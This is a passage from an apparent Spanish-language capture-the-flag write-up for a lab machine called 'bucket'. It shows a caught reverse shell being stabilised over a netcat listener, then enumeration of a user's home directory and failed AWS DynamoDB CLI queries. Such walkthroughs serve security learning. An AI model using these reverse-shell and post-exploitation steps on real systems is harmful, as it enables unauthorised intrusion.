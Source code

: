 ```bash 
┌──(kali㉿kali)-[~]
└─$ stty raw -echo ; fg
[1]  + continued  rlwrap nc -nlvp 4443
www-data@bucket:/var/www/html$ 
```

Ya dentro del sistema podemos listar lo que hay en el /home, no podemos leer la flag que está en el directorio de `roy`, pero si podemos enumerar lo que hay dentro de `project`:

```bash
www-data@bucket:/var/www/html$ ls -al /home/roy
ls -al /home/roy
total 28
drwxr-xr-x 3 roy  roy  4096 Sep 24  2020 .
drwxr-xr-x 3 root root 4096 Sep 16  2020 ..
lrwxrwxrwx 1 roy  roy     9 Sep 16  2020 .bash_history -> /dev/null
-rw-r--r-- 1 roy  roy   220 Sep 16  2020 .bash_logout
-rw-r--r-- 1 roy  roy  3771 Sep 16  2020 .bashrc
-rw-r--r-- 1 roy  roy   807 Sep 16  2020 .profile
drwxr-xr-x 3 roy  roy  4096 Sep 24  2020 project
-r-------- 1 roy  roy    33 May 19 10:02 user.txt
www-data@bucket:/var/www/html$ ls -al /home/roy/project
ls -al /home/roy/project
total 44
drwxr-xr-x  3 roy roy  4096 Sep 24  2020 .
drwxr-xr-x  3 roy roy  4096 Sep 24  2020 ..
-rw-rw-r--  1 roy roy    63 Sep 24  2020 composer.json
-rw-rw-r--  1 roy roy 20533 Sep 24  2020 composer.lock
-rw-r--r--  1 roy roy   367 Sep 24  2020 db.php
drwxrwxr-x 10 roy roy  4096 Sep 24  2020 vendor
www-data@bucket:/var/www/html$
```

Pero parece que no tenemos permisos para ver lo que hay dentro de esa DB: 
```bash 
www-data@bucket:/var/www/html$ aws --endpoint-url http://127.0.0.1:4566 dynamodb list-tables 
<int-url http://127.0.0.1:4566 dynamodb list-tables 
You must specify a region. You can also configure your region by running "aws configure".
www-data@bucket:/var/www/html$ aws configure
aws configure
AWS Access Key ID [None]: dano
dano
AWS Secret Access Key [None]: dano
dano
Default region name [None]: dano
dano
Default output format [None]: 


[Errno 13] Permission denied: '/var/www/.aws'
```

Pero desde nuestra máquina atacante si que podemos enumerar la DB: 
